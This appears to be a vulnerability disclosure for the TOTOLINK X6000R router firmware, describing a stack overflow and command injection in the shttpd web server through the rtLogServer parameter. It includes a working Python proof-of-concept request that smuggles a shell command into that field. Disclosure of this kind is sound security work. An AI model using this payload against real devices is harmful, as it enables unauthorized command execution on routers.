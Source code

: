 ## Overview

- Manufacturer's website: https://www.totolink.net/
- Firmware download website:
  - https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html

## Affected version

totolink X6000R V9.4.0cu.852_20230719

## Vulnerability details

A stack overflow and command injection vulnerability exists in the `FUN_00415aa4` function of program `/usr/sbin/shttpd` in X6000R V9.4.0cu.852_20230719. The function gets the `rtLogServer` parameter and some other parameters from the user request. When `rtLogEnabled` is 1, `rtLogServer` is concatenated to `acStack_108`, a process that may cause stack overflow. Subsequently `acStack_108` is passed to `CsteSystem`, a function that eventually executes execv, causing command injection.

![image1](image/1.png)

## PoC

```python
import requests
url = "http://192.168.244.142/cgi-bin/cstecgi.cgi"

data = {
    "topicurl":"setSyslogCfg",
    "enable":"0",
    "rtLogEnabled":"1",
    "rtLogServer":";id > /1.txt; ls "
}

headers = {
    "Origin": "http://192.168.244.142",
    "Referer": "http://192.168.244.142/login.html"
}

response = requests.post(url, data=data, headers=headers)
print(response.text)
print(response)
```

Here is a screenshot of command injection:

![demo](image/demo.png)
